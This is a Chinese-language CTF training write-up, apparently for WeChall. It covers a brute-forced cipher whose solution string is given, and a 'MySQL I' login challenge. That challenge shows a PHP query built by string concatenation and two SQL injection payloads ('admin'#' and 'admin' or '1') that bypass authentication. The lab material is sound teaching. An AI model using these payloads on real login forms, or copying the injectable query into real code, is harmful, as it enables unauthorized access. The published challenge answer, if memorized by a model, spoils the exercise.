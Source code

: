 在16的时候，得到flag

```plaintext
Good0job,0you0solved0one0more0challenge0in0your0journey.0This0one0was0fairly0easy0to0crack.0Wasn't0it?01280keys0is0a0quite0small0keyspace,0so0it0shouldn't0have0taken0you0too0long0to0decrypt0this0message.0Well0done,0your0solution0is0egahopoacdpb.
16
```

把0换成空格，来看下

```plaintext
Good job, you solved one more challenge in your journey. This one was fairly easy to crack. Wasn't it? 128 keys is a quite small keyspace, so it shouldn't have taken you too long to decrypt this message. Well done, your solution is egahopoacdpb.
```

提交egahopoacdpb即可。

## Training: Crypto - Digraphs

## Training: MySQL I

题目已给判断登陆成功代码，第42行定义了查询语句。

验证代码

```php
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```

### 方法一

username输入 `admin'#` 即可登录。

原理：用**Mysql**单行注释符号`#`将后半句AND语句注释掉。

```php
$query = "SELECT * FROM users WHERE username='admin'#' AND password='$password'";
```

构成SQL语句

```sql
SELECT * FROM users WHERE username='admin'
```

故而登录成功。 补充：之所以不是php注释，是因为`#`在双引号中，只会显示它的字面量。

同样可以用`--`--的后面要加空格，详情参考[MySQL的注释 - 简书](https://www.jianshu.com/p/30ea1bd03cd0)

### 方法二

username输入 `admin' or '1` 即可登录。

构成SQL语句

```sql
SELECT * FROM users WHERE username='admin' or '1' AND password='$password'
```
